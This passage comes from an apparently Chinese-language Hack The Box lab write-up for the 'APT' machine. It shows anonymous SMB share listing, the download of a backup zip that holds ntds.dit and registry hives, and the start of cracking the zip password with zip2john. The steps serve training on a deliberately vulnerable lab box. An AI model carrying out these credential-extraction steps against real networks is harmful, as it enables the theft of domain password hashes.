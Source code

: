 将 `dead:beef::b885:d62a:d679:573f htb.local` 写入 /etc/hosts

访问 htb.local 80 端口 web 服务，跟 ipv4 服务是一模一样的

## smbclient

smbclient 共享文件夹，尝试空密码列出共享目录

```shell
~/Hackthebox-APT 
> sudo smbclient -L \\htb.local
Password for [WORKGROUP\root]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        backup          Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
htb.local is an IPv6 address -- no workgroup available
```

接下来查看 backup 目录内容，匿名登录，下载到 backup.zip 文件

![](https://i.328888.xyz/2023/04/02/iHbugp.png)

其他目录都无权限，接下来仔细观察 backup.zip

# zip 密码爆破

存在 .dit 密码文件、备份文件等等

```shell
~/Hackthebox-APT
> unzip -l backup.zip
Archive:  backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2020-09-23 19:40   Active Directory/
 50331648  2020-09-23 19:38   Active Directory/ntds.dit
    16384  2020-09-23 19:38   Active Directory/ntds.jfm
        0  2020-09-23 19:40   registry/
   262144  2020-09-23 19:22   registry/SECURITY
 12582912  2020-09-23 19:22   registry/SYSTEM
---------                     -------
 63193088                     6 files
```

解压 zip 需要密码，这时使用特定工具进行破解

```shell
sudo zip2john backup.zip > hash4zip
```
